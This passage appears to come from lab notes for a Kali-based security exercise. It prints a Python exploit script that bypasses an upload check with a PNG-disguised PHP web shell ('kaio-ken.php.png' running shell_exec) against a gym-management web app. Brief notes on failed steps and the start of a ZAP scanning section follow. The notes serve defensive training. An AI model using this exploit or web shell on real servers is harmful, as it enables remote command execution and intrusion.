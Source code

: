 ```py
def formatHelp(STRING):
    return Style.BRIGHT + Fore.RED + STRING + Fore.RESET

def header():
    BL = Style.BRIGHT + Fore.GREEN
    RS = Style.RESET_ALL
    FR = Fore.RESET
    SIG = BL + '            /\\\n' + RS
    SIG += Fore.YELLOW + '/vvvvvvvvvvvv ' + BL + '\\' + FR + '--------------------------------------,\n'
    SIG += Fore.YELLOW + '`^^^^^^^^^^^^' + BL + ' /' + FR + '============' + Fore.RED + 'BOKU' + FR + '====================="\n'
    SIG += BL + '            \/' + RS + '\n'
    return SIG

if __name__ == "__main__":
    print(header())
    if len(sys.argv) != 2:
        print(formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0]))
        print(formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0]))
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = b'\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'kaio-ken.php.png',
            PNG_magicBytes + b'\n' + b'<?php echo shell_exec($_GET["telepathy"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }
    fdata = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)

```
Note you may need to ` pip install requests colorama ` my Kali box already had them.

I am seeing that step 7 failed to connect, and it did not exit on its own properly(step 10). I think this is okay since the point is not takeover but to make noise and see what we can find. 

# Vulnerability Scanning

## Using ZAP 
In your Kali-Purple box ZAP should be installed. 
![zap-location.png](/old/zap-location.png)
